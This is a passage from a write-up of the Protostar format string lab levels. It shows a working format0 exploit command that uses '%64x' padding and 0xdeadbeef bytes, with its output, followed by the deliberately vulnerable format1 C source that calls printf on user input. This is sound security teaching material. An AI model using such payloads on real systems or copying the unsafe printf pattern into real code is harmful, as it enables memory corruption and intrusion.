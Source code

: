 With the help of `%64x`, we can write 64 bytes of padding without manually typing them out. 

Here is how the final exploit looks:

``` shell
user@protostar:/opt/protostar/bin$ ./format0 $(python -c 'print "%64x\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

## Format 1

Description:

>This level shows how format strings can be used to modify arbitrary memory locations.
><br><br>Hints:<br>
>objdump -t is your friend, and your input string lies far up the stack :)<br><br>
>This level is at /opt/protostar/bin/format1

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

The goal here is to change the **target** variable from 0 to a nonzero value so that the program prints the success message.

### Vulnerability

At first glance, the code might seem normal, but there's a mistake in how `printf()` is used inside the `vuln()` function. Typically, **printf()** expects a format string followed by additional arguments if needed:

``` c
printf("%s", string);
```
